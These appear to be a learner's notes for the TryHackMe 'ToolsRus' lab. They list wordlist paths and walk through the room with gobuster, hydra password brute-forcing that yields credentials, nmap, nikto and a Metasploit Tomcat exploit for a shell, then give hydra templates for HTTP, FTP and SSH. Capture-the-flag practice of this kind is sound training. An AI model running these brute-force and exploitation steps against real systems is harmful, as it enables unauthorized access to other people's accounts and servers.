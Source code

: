 ## Wordllist : 
	Subdomain:
		--> /usr/share/dirb/wordlists/common.txt
			=> big.txt |
		--> /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
			=> directory-list-1.0.txt
	username: 
		--> /usr/share/commix/src/txt/usernames.txt
		--> /usr/share/wfuzz/wordlist/others/names.txt
	password : 
		--> /usr/share/wordlists/rockyou.txt
		--> /home/kali/2024_5_CTF/wordlist/wordlist2.txt
		--> /home/kali/2024_5_CTF/wordlist/10-million-password-list-top-100.txt
		--> /usr/share/wordlists/fasttrack.txt
## ToolsRus	
	https://tryhackme.com/r/room/toolsrus
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	=> 練習使用 dirbuster、Hydra、nmap、nikto 和 metasploit 等工具
		--> 找到什麼目錄 : 
			=> gobuster dir -u http://10.10.157.59 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
		--> 找到誰的名字 : 
			=> http://10.10.157.59/guidelines
		--> have authentication :
			=> http://10.10.157.59/protected
		--> 受保護部分的密碼
			=> hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.157.59 http-get /protected
			=> login: bob bubbles
		--> 連接埠 : 
			=> sudo nmap -sS -sV 10.10.157.59
			=> sudo nmap -sS -sV -vv -sC 10.10.157.59 -p1234
		--> /manager/html 目錄 : 
			=> nikto -id bob:bubbles -h http://10.10.157.59/manager/html
		--> 取得 shell : metasploit
			=> msfconsole 
				> search tomcat
				=> meterpreter > shell
## hydra:	
	--> http:
		=> hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.157.59 http-get /protected
		=> hydra -l -P <MACHINE_IP> http-post-form "<path>:<login_credentials>:<invalid_response>"
		=> hydra -l <username> -P <wordlist> MACHINE_IP http-post-form
			 "/:username=^USER^&password=^PASS^:F=incorrect" -V
	--> ftp:
		=> hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.126.186:10021
	--> ssh :
		=> hydra -l frank -P /usr/share/wordlists/rockyou.txt ssh://10.10.126.186 
	
